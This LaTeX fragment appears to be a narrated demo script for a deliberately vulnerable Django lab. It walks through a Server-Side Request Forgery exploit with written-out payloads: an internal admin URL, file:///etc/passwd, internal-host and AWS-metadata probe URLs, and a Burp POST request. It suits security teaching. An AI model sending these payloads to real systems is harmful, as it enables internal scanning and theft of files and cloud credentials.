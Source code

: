 \documentclass[12pt,a4paper]{article}
\begin{document}
\textbf{Patch:}
\begin{lstlisting}[language=Python]
import tempfile
temp_file = tempfile.NamedTemporaryFile(delete=False, suffix='.pdf')
# Unique filename per request: /tmp/tmpXYZ123.pdf
\end{lstlisting}

---

\subsubsection{10. SSRF (Server-Side Request Forgery) (2 min)}

\textbf{Tool:} Browser form + Burp Suite

\textbf{Narration:}
\begin{quote}
\textit{"SSRF allows the server to make requests to internal resources. An attacker can scan internal networks or access services only available from localhost."}
\end{quote}

\textbf{Exploit Steps:}
\begin{enumerate}
    \item Navigate to \texttt{/vulnerable/ssrf/}
    \item Normal test: Enter \texttt{https://www.google.com}
    \item Shows Google homepage content (legitimate use)
    \item Malicious test 1: Enter \texttt{http://127.0.0.1:8000/admin/}
    \item Django admin panel content displayed!
    \item Malicious test 2: Enter \texttt{file:///etc/passwd}
    \item Local file contents displayed
\end{enumerate}

\textbf{Network Scanning:}
\begin{lstlisting}[language=bash]
# Try to scan internal network
http://localhost:8000/vulnerable/ssrf/
# URL: http://172.17.0.1:22  (Docker host SSH)
# URL: http://172.17.0.2:5432  (Postgres if exists)
# URL: http://169.254.169.254/  (AWS metadata if cloud)
\end{lstlisting}

\textbf{Burp Repeater:}
\begin{lstlisting}
POST /vulnerable/ssrf/ HTTP/1.1
Host: localhost:8000
Content-Type: application/x-www-form-urlencoded

url=http://127.0.0.1:8000/admin/
\end{lstlisting}
\end{document}
